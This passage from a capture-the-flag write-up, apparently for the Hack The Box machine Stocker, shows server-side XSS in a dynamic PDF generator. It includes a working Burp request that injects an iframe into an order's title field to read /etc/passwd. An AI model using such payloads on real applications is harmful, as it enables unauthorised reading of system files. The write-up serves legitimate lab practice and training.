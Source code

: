 ## Server Side XSS (PDF)

While checking the page-source of [http://dev.stocker.htb/stock](http://dev.stocker.htb/stock) we see a function that looks interesting.  

```js
    submitPurchase.addEventListener("click", () => {
      fetch("/api/order", {
        method: "POST",
        body: JSON.stringify({ basket }),
        headers: {
          "Content-Type": "application/json",
        },
      })
```

Using **JSON.stringify** can cause [XSS vulnerabilites](https://pragmaticwebsecurity.com/articles/spasecurity/json-stringify-xss.html). Maybe we should check that out.  
We'll abuse one of those snippets from [Hacktricks - Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)  

### Read /etc/passwd

**Burp: Request**

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 220
Connection: close
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
token: ddac62a28254561001277727cb397baf

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=file:///etc/passwd height=800 width=800></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

**Burp: Result**

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 16 Jan 2023 18:47:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-uRAgVxWOPH+zozYbT1COcNIa11A"

{"success":true,"orderId":"63c59bab9a4ca468a539a9f4"}
```
